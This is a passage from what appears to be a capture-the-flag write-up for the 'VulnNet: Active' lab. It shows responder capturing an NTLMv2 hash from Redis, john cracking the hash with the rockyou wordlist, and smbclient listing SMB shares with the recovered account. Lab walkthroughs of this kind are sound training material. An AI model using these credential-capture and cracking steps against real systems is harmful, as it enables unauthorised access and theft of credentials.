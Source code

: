 ## Getting NTLM Hash :

- We will make redis connect to our local machine using responder wich captures serice hash .

>root@kali:~/thm/vulnNet:active# responder -I tun0 

>> Wait for the connection 😉️

![](/img/02/02.png)

- At this point we need to crack the hash using hashcat or john the ripper

> root@kali:~/thm/vulnNet:active# john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
>>Using default input encoding: UTF-8
>>Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
>>Press 'q' or Ctrl-C to abort, almost any other key for status
>>{** ** ** ** ** ** ** **}  (enterprise-security)
>>1g 0:00:00:06 DONE (2021-11-09 07:01) 0.1666g/s 668997p/s 668997c/s 668997C/s 
>>Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
>>Session completed

---

#  ↘️   ⬇️   ↙️
## Step 4 : ( **_Back 2 SMB_** )

- 
-- root@kali:~/thm/vulnNet:active# smbclient -L 10.10.214.82 -U "enterprise-security"

>Enter WORKGROUP\enterprise-security's password: 

>        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        Enterprise-Share Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 

>SMB1 disabled -- no workgroup available
